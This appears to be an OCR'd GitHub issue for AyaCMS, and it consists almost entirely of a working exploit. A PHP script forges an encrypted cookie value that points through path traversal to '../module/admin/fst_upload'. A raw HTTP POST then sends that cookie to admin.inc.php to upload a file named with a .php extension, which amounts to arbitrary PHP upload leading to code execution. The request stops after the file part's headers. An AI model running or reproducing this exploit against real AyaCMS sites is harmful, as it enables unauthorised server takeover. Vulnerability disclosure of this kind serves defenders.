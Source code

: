 [https://github.com/loadream/AyaCMS/issues/3](https://github.com/loadream/AyaCMS/issues/3)

payload

```php
<?php

function random($length=4,$chars='abcdefghijklmnopqrstuvwxyz'){
	$hash='';
	$max=strlen($chars)-1;
	for($i=0;$i<$length;$i++){
		$hash.=$chars[mt_rand(0,$max)];
	}
	return $hash;
}

function kecrypt($txt,$key){
	$key=md5($key);
	$len=strlen($txt);
	$ctr=0;
	$str='';
	for($i=0;$i<$len;$i++){
		$ctr=$ctr==32?0:$ctr;
		$str.=$txt[$i]^$key[$ctr++];
	}
	return $str;
}

function encrypt($txt,$key=''){
	$key or $key='aaa';
	$rnd=random(32);
	$len=strlen($txt);
	$ctr=0;
	$str='';
	for($i=0;$i<$len;$i++){
		$ctr=$ctr==32?0:$ctr;
		$str.=$rnd[$ctr].($txt[$i]^$rnd[$ctr++]);
	}
	return str_replace('=','',base64_encode(kecrypt($str,$key)));
}

echo encrypt('../module/admin/fst_upload');
```

http 包

```
POST /aya/admin.inc.php HTTP/1.1
Host: 81.70.155.160
Content-Length: 244
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykhsd4wQ8UBmzCnD1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.62
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: aya_admin_lang=QWwPIAJ9EitZZEEoQWtYOFA0DCUAMFttV2ANPBUlRmFNKBRmFTEQG1ZxTDFaaVEyQyMWdA
Connection: close

------WebKitFormBoundarykhsd4wQ8UBmzCnD1
Content-Disposition: form-data; name="upfile"; filename="xzxz123123123.php"
Content-Type: application/octet-stream
```